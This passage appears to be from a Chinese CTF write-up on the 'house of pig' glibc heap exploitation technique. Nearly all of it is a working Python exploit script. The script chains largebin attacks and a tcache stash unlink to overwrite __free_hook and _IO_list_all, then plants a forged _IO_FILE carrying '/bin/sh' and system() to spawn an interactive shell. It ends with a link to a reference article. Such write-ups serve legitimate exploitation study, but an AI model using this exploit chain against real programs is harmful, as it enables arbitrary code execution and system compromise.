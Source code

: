 ```python
add_message(0x430,'largebin\n' * (0x430 // 48)) # 8
delete_message(7)
add_message(0x430,'push\n' * (0x430 // 48)) # 9
change_rol(1)
change_rol(2)
edit_message(7,(p64(0) + p64(__free_hook_addr - 0x28)) * (0x420//48))

change_rol(1)
delete_message(14)
add_message(0x430,'push\n' * (0x430 // 48)) # 15
# largebin attack done

change_rol(3)
add_message(0x410,'get_back\n' * (0x430 // 48)) # 0

change_rol(1)
edit_message(9,(p64(heap_base + 0x12C20) + \
                p64(__free_hook_addr - 0x20)) * (0x150 // 48))
change_rol(3) 
add_message(0x90,'do stash\n' * (0x90 // 48)) # 1
# stash unlink done
change_rol(2)
edit_message(7,(p64(0) + p64(_IO_list_all_addr - 0x20)) * (0x420//48))
change_rol(3)
delete_message(0)
add_message(0x430,'push\n' * (0x430 // 48)) # 2
# second largebin atk
change_rol(3)
add_message(0x330,'pass\n' * (0x430 // 48)) # 3
add_message(0x430,'pass\n' * (0x430 // 48)) # 4

fake_IO_FILE = ''
fake_IO_FILE += 2 * p64(0)
fake_IO_FILE += p64(1) # _IO_write_base
fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) # _IO_write_ptr
fake_IO_FILE += p64(0) # _IO_write_end
fake_IO_FILE += p64(heap_base + 0x13E20) # old_buf, _IO_buf_base
fake_IO_FILE += p64(heap_base + 0x13E20 + 0x18) # calc the memcpy length, _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0xC0 - 0x10,'\x00')
fake_IO_FILE += p32(0) # mode <= 0
fake_IO_FILE += p32(0) + p64(0) * 2 # bypass _unused2
fake_IO_FILE += p64(_IO_str_jump_addr)
payload = fake_IO_FILE + '/bin/sh\x00' + 2 * p64(system_addr)
sh.sendlineafter("01dwang's Gift:\n",payload)
#add_message(0x410,'large_bin\n' * (0x410 // 48)) # 1
sh.sendlineafter("Choice: ",'5')
sh.sendlineafter("user:\n",'')

sh.interactive()
```

## 參考
> [house of pig一個新的堆利用詳解](https://www.anquanke.com/post/id/242640#h2-3)
